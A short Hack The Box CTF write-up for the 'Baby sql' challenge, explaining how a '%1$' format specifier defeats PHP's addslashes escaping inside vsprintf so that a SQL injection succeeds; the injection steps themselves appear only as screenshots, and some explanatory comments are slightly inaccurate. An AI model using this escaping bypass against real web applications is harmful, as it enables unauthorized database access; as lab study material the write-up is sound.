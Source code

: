 ```yaml
---
title: Baby sql - Hack The Box
excerpt: "Baby is a medium machine, your challenge is the escape caracter, from the php functions, where you need to test, to see what is valid. And try the sql command that are valids from database."
last_modified_at: 29-12-2021
categories:
  - writeups
tags:  
  - htb
  - sql_injection
  - escape_character
  - POST
---
```


![center-aligned-image](/assets/images/ctf/htb-writeup-baby-interdimensional-internet/synack.png){: .align-center}  

Baby is a medium machine, your challenge is the escape caracter, from the php functions, where you need to test, to see what is valid. And try the sql command that are valids from database.

## Web Page

Initialy we see a web page where has a php code, and a sql command, that receive a post parameter.

![](/assets/images/ctf/htb-writeup-baby-sql/1.png)

Now we can try a sql injection.  
But first we have to know what those functions in php code does.  
**addslashes**: https://www.php.net/manual/en/function.addslashes.php
**vsprintf**: https://www.php.net/manual/en/function.vsprintf.php  

The addslashe, basically add a slash to scape in a string, so will does this: 
```php
$pass = addslashes("passs'")
echo $pass
# result = pass\'
```
The vsprintf will format a string:
```php
$pass = addslashes("passs'")
echo $pass
# result = pass\'
vsprintf("SELECT * FROM users WHERE password=('$pass') AND username=('%s')", 'admin')
# result = SELECT * FROM users WHERE password=('pass\'') AND username=('%s')", 'admin')
```
But if use the %1$ the / will be retired. The 1 reference the \, add was added by addslashes, but the \ is a invalid reference, so is removed.
```php
$pass = addslashes("pass%1$'")
echo $pass
# result = pass%1$\'
vsprintf("SELECT * FROM users WHERE password=('$pass') AND username=('%s')", 'admin')
# result = SELECT * FROM users WHERE password=('pass'') AND username=('%s')", 'admin')
```

No we can do the sql injection.

![](/assets/images/ctf/htb-writeup-baby-sql/2.png)

Now the table is know.

![](/assets/images/ctf/htb-writeup-baby-sql/3.png)

